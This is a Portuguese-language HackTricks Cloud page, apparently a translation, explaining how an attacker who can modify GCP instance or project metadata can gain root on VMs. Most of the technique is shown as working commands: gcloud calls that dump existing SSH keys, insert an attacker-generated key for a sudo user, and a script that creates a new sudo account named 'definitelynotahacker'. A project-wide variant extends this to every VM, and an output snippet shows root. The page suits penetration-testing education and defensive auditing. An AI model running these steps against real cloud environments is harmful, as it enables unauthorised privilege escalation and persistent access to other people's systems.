 # GCP - Adicionar Metadados SSH Personalizados

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Um atacante com permissões para **modificar os metadados da instância** poderia comprometer/escalar para uma conta de serviço com essa permissão (que pode ser restrita por um escopo):

### **Adicionar chaves SSH aos metadados personalizados**

**Sistemas Linux** no GCP geralmente executam scripts do [Ambiente de Convidado Linux Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um desses é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que **periodicamente** **consulta** o ponto de extremidade de metadados da instância para **alterações nas chaves públicas SSH autorizadas**.

**Se uma nova chave pública** for encontrada, ela será processada e **adicionada à máquina local**. Dependendo do formato da chave, ela será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou criará um novo usuário com direitos de `sudo`**.

Portanto, se você pode **modificar os metadados personalizados da instância** com sua conta de serviço, você pode **escalar** para root no sistema local **obtendo direitos SSH** para uma conta privilegiada. Se você pode modificar **metadados personalizados do projeto**, você pode **escalar** para root em **qualquer sistema no projeto GCP atual** que esteja executando o daemon de contas.

### **Adicionar chave SSH a usuário privilegiado existente**

Vamos começar adicionando nossa própria chave a uma conta existente, pois isso provavelmente fará menos barulho.

**Verifique a instância para chaves SSH existentes**. Escolha um desses usuários, pois é provável que eles tenham direitos de sudo.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
Procure por uma seção como a seguinte:
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
Observe o **formato um pouco estranho** das chaves públicas - o **nome de usuário** é listado no **início** (seguido por dois pontos) e depois novamente no **final**. Precisaremos corresponder a este formato. Diferente da operação normal de chave SSH, o nome de usuário é absolutamente importante!

**Salve as linhas com nomes de usuário e chaves em um novo arquivo de texto** chamado `meta.txt`.

Vamos supor que estamos mirando no usuário `alice` mencionado acima. Vamos **gerar uma nova chave** para nós mesmos assim:
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
Adicione sua nova chave pública ao arquivo `meta.txt` imitando o formato:
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
Agora, você pode **reescrever os metadados da chave SSH** para a sua instância com o seguinte comando:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
Você agora pode **acessar um shell no contexto de `alice`** da seguinte forma:
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Nenhuma chave existente encontrada ao seguir os passos acima? Ninguém mais interessante em `/etc/passwd` para alvo?

Você pode **seguir o mesmo processo** que o acima, mas apenas **crie um novo nome de usuário**. Esse usuário será criado automaticamente e receberá direitos para `sudo`. De forma scriptada, o processo seria assim:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chaves SSH no nível do projeto <a href="#sshing-around" id="sshing-around"></a>

Seguindo os detalhes mencionados na seção anterior, você pode tentar comprometer mais VMs.

Podemos expandir um pouco essas informações [**aplicando chaves SSH no nível do projeto**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), concedendo permissão para **acessar via SSH uma conta privilegiada** em qualquer instância que não tenha escolhido explicitamente a opção "Bloquear chaves SSH de âmbito do projeto".
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
Se você for realmente ousado, também pode digitar `gcloud compute ssh [INSTANCE]` para usar seu nome de usuário atual em outras máquinas.

# Referências
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
